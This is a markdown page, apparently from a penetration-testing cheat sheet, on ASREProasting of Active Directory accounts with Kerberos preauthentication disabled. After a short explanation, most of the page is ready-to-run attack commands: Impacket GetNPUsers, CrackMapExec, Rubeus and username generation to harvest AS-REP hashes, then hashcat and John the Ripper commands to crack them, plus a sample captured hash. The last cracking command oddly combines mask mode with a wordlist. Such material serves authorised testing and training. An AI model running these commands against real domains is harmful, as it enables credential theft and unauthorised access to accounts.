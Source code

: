 # ASREProast

>When asking the KDC \(Key Distribution Center\) for a TGT \(Ticket Granting Ticket\), the requesting user needs to send a piece of information \(a timestamp\) encrypted with it's own credentials. It ensures the user is requesting a TGT for himself. This is called Kerberos preauthentication.
>
The TGT is then sent to the user in the `KRB_AS_REP` message, but that message also contains a session key. That session key is encrypted with the requested user's NT hash.
>
Kerberos preauthentication prevents attackers from requesting a TGT for any user, receive the `KRB_AS_REP` message, extract the session key and crack it offline in an attempt to retrieve that user's password.
>
Because some applications don't support Kerberos preauthentication, it is common to find users with Kerberos preauthentication disabled, hence allowing attackers to request TGTs for these users and crack the session keys offline. This is ASREProasting.
>
While this attack can be carried out without any prior foothold \(domain user credentials\), there is no way of finding out users with `Do not require Kerberos preauthentication` set without that prior foothold.
>
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [GetNPUsers](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) \(Python\) can get TGTs for the users that have the property `Do not require Kerberos preauthentication` set.
![AS-Rep Setting](../../../assets/asrep.png)

```bash
GetNPUsers.py htb.local/svc-alfresco -dc-ip 10.10.10.161 -no-pass

# with a users file
GetNPUsers.py 'htb.local/' -usersfile users.txt -request -format hashcat -outputfile ASREProastables.txt

# create common username permutations with known names
./username-anarchy --input-file fullnames.txt --select-format first,flast,first.last,firstl > unames.txt

# with a password
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt 'DOMAIN/USER:Password'

# with an NT hash
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -hashes 'LMhash:NThash' 'DOMAIN/USER'
```

This can also be achieved with [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) \(Python\).
```bash
crackmapexec ldap $TARGETS -u $USER -p $PASSWORD --asreproast ASREProastables.txt
```

The same thing can be done with [Rubeus](https://github.com/GhostPack/Rubeus) from a session running with a domain user privileges.
```bash
Rubeus.exe asreproast  /format:hashcat /outfile:ASREProastables.txt
```

Depending on the output format used \(`hashcat` or `john`\), [hashcat](https://github.com/hashcat/hashcat) and [JohnTheRipper](https://github.com/magnumripper/JohnTheRipper) can be used to try cracking the hashes.
```bash
hashcat -m 18200 -a 0 ASREProastables.txt $wordlist
```

```bash
john --wordlist=$wordlist ASREProastables.txt
```

#### Examples
```
.\Rubeus.exe asreproast

# Get a hash like this
$krb5asrep$spot@offense.local:3171EA207B3A6FDAEE52BA247C20362E$56FE7DC0CABA8CB7D3A02A140C612A917DF3343C01BCDAB0B669EFA15B29B2AEBBFED2B4F3368A897B833A6B95D5C2F1C2477121C8F5E005AA2A588C5AE72AADFCBF1AEDD8B7AC2F2E94E94CB101E27A2E9906E8646919815D90B4186367B6D5072AB9EDD0D7B85519FBE33997B3D3B378340E3F64CAA92595523B0AD8DC8E0ABE69DDA178D8BA487D3632A52BE7FF4E786F4C271172797DCBBDED86020405B014278D5556D8382A655A6DB1787DBE949B412756C43841C601CE5F21A36A0536CFED53C913C3620062FDF5B18259EA35DE2B90C403FBADD185C0F54B8D0249972903CA8FF5951A866FC70379B9DA

# Add the $23$
$krb5asrep$23$spot@offense.local:3171ea207b3a6fdaee52ba247c20362e$56fe7dc0caba8cb7d3a02a140c612a917df3343c01bcdab0b669efa15b29b2aebbfed2b4f3368a897b833a6b95d5c2f1c2477121c8f5e005aa2a588c5ae72aadfcbf1aedd8b7ac2f2e94e94cb101e27a2e9906e8646919815d90b4186367b6d5072ab9edd0d7b85519fbe33997b3d3b378340e3f64caa92595523b0ad8dc8e0abe69dda178d8ba487d3632a52be7ff4e786f4c271172797dcbbded86020405b014278d5556d8382a655a6db1787dbe949b412756c43841c601ce5f21a36a0536cfed53c913c3620062fdf5b18259ea35de2b90c403fbadd185c0f54b8d0249972903ca8ff5951a866fc70379b9da

# Crack it
hashcat -m18200 '$krb5asrep$23$spot@offense.local:3171EA207B3A6FDAEE52BA247C20362E$56FE7DC0CABA8CB7D3A02A140C612A917DF3343C01BCDAB0B669EFA15B29B2AEBBFED2B4F3368A897B833A6B95D5C2F1C2477121C8F5E005AA2A588C5AE72AADFCBF1AEDD8B7AC2F2E94E94CB101E27A2E9906E8646919815D90B4186367B6D5072AB9EDD0D7B85519FBE33997B3D3B378340E3F64CAA92595523B0AD8DC8E0ABE69DDA178D8BA487D3632A52BE7FF4E786F4C271172797DCBBDED86020405B014278D5556D8382A655A6DB1787DBE949B412756C43841C601CE5F21A36A0536CFED53C913C3620062FDF5B18259EA35DE2B90C403FBADD185C0F54B8D0249972903CA8FF5951A866FC70379B9DA' -a 3 /usr/share/wordlists/rockyou.txt
```

References:
https://blog.xpnsec.com/kerberos-attacks-part-2/
https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/